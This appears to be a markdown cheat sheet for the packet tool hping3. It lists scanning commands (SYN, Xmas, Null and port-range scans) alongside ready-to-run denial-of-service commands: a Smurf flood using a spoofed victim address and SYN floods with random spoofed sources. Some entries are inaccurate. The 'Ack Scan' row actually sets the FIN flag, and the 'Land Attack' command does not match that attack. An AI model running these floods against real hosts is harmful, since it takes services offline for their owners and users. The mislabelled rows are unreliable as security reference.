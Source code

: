 # Hping 
     * Supports TCP,UDP,ICMP
     * Firewall testing
     * Port scnning
     * Remote OS fingerprinting
     * Dos attacks

| Command   | Use   |
| ------------ | ------------ |
|hping3 -S 192.168.10.15 -p 80 -c 3   |ping   |
|hping3 -1 172.16.1.2   |normal ping utility, sending ICMP-echo und receiving ICMP-reply   |
|hping3 --traceroute -V -1 172.16.1.2   |similar to famous utilities like tracert (windows) or traceroute (linux)   |
|hping3 -V -S -p 80 -s 5050 172.16.1.2   |send a Syn packet to a specified port 80   |
|hping3 -c 1 -V -1 -C 17 172.16.1.2   |sends a ICMP address mask request ( Type 17 )   |
|hping3 -c 1 -V -p 80 -s 5050 -F 172.16.1.2   |Ack Scan: This scan can be used to see if a host is alive (when Ping is blocked for example). This should send a RST response back if the port is open   |
|hping3 -c 1 -V -p 80 -s 5050 -M 0 -UPF 172.16.1.2   |Xmas Scan: This scan sets the sequence number to zero and set the URG + PSH + FIN flags in the packet. If the target device's TCP port is closed, the target device sends a TCP RST packet in reply. If the target device's TCP port is open, the target discards the TCP Xmas scan, sending no reply   |
|hping3 -c 1 -V -p 80 -s 5050 -Y 172.16.1.2   |Null Scan: This scan sets the sequence number to zero and have no flags set in the packet. If the target device's TCP port is closed, the target device sends a TCP RST packet in reply. If the target device's TCP port is open, the target discards the TCP NULL scan, sending no reply   |
|hping3 -1 --flood -a VICTIM_IP BROADCAST_ADDRESS   |Smurf Attack: This is a type of denial-of-service attack that floods a target system via spoofed broadcast ping messages   |
|hping3 -V -c 1000000 -d 120 -S -w 64 -p 445 -s 445 --flood --rand-source 172.16.1.2   |DOS Land Attack   |
|hping3 --flood -S -V --rand-source 172.16.1.2   |DDOS attck (SYN)   |
|hping3 --scan 0-500 -S 172.16.1.2   |port scan (SYN)   |
|hping3 --scan 0-500 -X 172.16.1.2   |port scan (Xmas)   |

-  --flood: sent packets as fast as possible. Don't show replies.
-     --rand-dest: random destionation address mode. see the man.
-     -V <-- Verbose
-     -c --count: packet count
-     -d --data: data size
-     -S --syn: set SYN flag
-     -w --win: winsize (default 64)
-     -p --destport [+][+]<port> destination port(default 0) ctrl+z inc/dec
-     -s --baseport: base source port (default random) 
